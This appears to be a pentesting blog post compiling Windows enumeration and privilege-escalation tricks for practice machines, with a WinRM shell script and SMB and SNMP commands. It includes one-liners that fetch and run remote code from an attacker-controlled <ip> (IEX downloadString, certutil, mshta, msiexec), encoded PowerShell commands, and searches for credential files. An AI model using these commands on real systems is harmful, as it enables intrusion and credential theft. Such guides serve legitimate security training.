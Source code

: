 ```yaml
---
layout: post
title: "Windows enum and privesc: Tricks and tools compendium"
categories: [ENUMERATION,WINDOWS,PRIVESC]
---
```


Well, we spend time enumerating a Windows machine externally, and we might have an exploit, or any vulnerability that can lead us to RCE but... If you are like me, usually used to hack Linux boxes, you'll have a hard time playing on a Windows machine. That's what is this post about, learing about getting a reverse shell on windows and some things we can use on it.

## Basic telnet and ftp 

```bash
# Maybe we see telnet open?
telnet x.x.x.x #If we got creds

#Ftp open?
ftp <ip> #If anonymous login is enabled we can use anonymous as user and pass

# FTP commands
ftp get # Download a file
ftp put # Upload a file

wget -m ftp://anonymous:anonymous@<ip> # If we can login, we can download all the FTP

```

Okay... we got no telnet or ftp, just the usual windows shares port (445/tcp), how do we enumerate that?

## SMB Enumeration

```bash
#Enumerate permissions
smbmap -H <ip> 
smbmap -H <ip> -d Domain -u user -p password

#Actually connect to the share
smbclient -L <ip>
smbclient //<ip>/share

#Enum4linux can help to extract some info
enum4linux -a <ip>

#Impacket Lookupsid (Enumerate users)
lookupsid.py user:password@<IP>
use auxiliary/scanner/smb/smb_lookupsid # also in metasploit
```

Well, more enumeration...

## SNMP

```bash
#SNMP checks
snmpenum -t <ip>
snmpenum -t <ip> -c public -v2c #If we know community and version

#Snmp v3
nmap -sV -p 161 --script=snmp-info TARGET-SUBNET
```

If we got a WinRM open (Usually port 5985), we can try the MSF module related, or if we want to do it manually, there is a
good article on building a Ruby shell [here](https://alionder.net/winrm-shell/)

Let's do it one as a example:

```rb
#shell.rb

require 'winrm'

conn = WinRM::Connection.new(
  endpoint: '<ip>',
  user: '<user>',
  password: '<password>',
)

command=""

# We can use cmd or powershell as a shell
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```


Maybe if we get RCE with some of beforementioned ways, it'll be a "stub" shell, maybe with no keys support so, here is a bit of powershell tricks:

## Powershell
```pwsh

# Download file one liners
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 
Invoke-WebRequest "https://example.com/archive.zip" -OutFile "C:\Windows\Temp\archive.zip"  # Newer versions (4,5)

# Download and run a script
IEX(New-Object Net.WebClient).downloadString('http://<ip>/script.ps1')

# Encoding a command to use in Windows
echo -n "<COMMAND>" | iconv --to-code UTF-16LE | base64 -w 0
powershell -EncodedCommand <base64_cmd>

```

## Another ways to download or execute files remotely
```
# Certutil
certutil.exe -urlcache -split -f "http://<ip>/object" C:\\tmp\\program.exe && C:\\tmp\\program.exe

# Malicious hta file
mshta.exe http://<ip>/test.hta
use exploit/windows/misc/hta_server #Metasploit

# Malicious msi package
msiexec /q /i http://<ip>/test.msi
```

Now... we got a low priv shell, what can we do?

```
#Check systeminfo
systeminfo
hostname
echo %PATH%

# Network
ipconfig
ipconfig /all

# Patches installed
wmic qfe

# Search filesystem
dir /s *pass* == *username* == *cred*
findstr /si private *.php *.xml *.txt #Search private files

...
```

We can also check some scripts to do this work for us, enumerating Critical vulnerabilites like unquoted service paths and more.
I grouped some of this scripts at the bottom of this page, in the section Links/Scripts.
Usually I like to run two of them, JAWS for general enumeration, and Watson for exploit related one.

Before finishing the post, there is a set of tools by Mark Russinovich from Microsoft. The Sysinternals pack.
I've used this tools a lot of times, for example PsExec to executing commands on another user, or ProcDump to dumping process memory to examine it.
They can be dowloaded individually [there](https://live.sysinternals.com/). And also as a pack on [https://docs.microsoft.com/en-us/sysinternals/downloads/](https://docs.microsoft.com/en-us/sysinternals/downloads/).


## Links / Scripts

[JAWS - Windows](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1)

[Watson](https://github.com/rasta-mouse/Watson)

[WindowsPrivescCheck - PentestMonkey](https://github.com/pentestmonkey/windows-privesc-check)

[Nishang - Offensive Powershell](https://github.com/samratashok/nishang)

[Powershell - Scripts](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

## Resources / Guides

[Windows Escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html)
